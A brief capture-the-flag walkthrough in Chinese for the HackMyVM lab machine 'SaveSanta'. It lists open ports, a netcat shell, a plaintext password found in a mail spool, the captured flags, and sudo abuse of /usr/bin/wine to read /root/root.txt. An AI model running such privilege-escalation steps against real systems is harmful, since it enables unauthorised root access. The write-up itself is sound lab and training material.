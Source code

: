 # SaveSanta

2025.03.27 https://hackmyvm.eu/machines/machine.php?vm=SaveSanta

[video]()

## Ip

192.168.5.40

## Scan

```
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
50015/tcp open  unknown
```

先没看 80 web。

nc 连接 50015 发现是一个 shell，可以直接读取 user flag：

```
HMV{f3fda86e428ccda3e33d207217665201}
```

系统枚举，啥都没有，最后在 /var/mail/alabaster 发现邮件：

```
Dear Alabaster,
As you know our systems have been compromised. You have been assigned to restore all systems as soon as possible.
I heard you have kicked out the Naughty Elfs so they cannot come back into the system. To be more secure we have hired Bill Gates.
His account has been created and ready to logon. When Bill arrives, tell him his username is 'bill'. The password has been set to: 'JingleBellsPhishingSmellsHackersGoAway' He will know what to do next.
Please help Bill as much as possible so Christmas can go on!
- Santa
```

bill:JingleBellsPhishingSmellsHackersGoAway 切换后，sudo -l 显示 (ALL) NOPASSWD: /usr/bin/wine 发现执行的是这个脚本/usr/bin/wine-stable 查看其内容，发现可以直接执行命令：

```
sudo /usr/bin/wine cmd /c dir   # 发现在Z:\
sudo /usr/bin/wine cmd /c dir Z:\\root
sudo /usr/bin/wine cmd /c type Z:/root/root.txt
HMV{67df9276f8aaa3f9f50b3e41fe5cbc53}
```
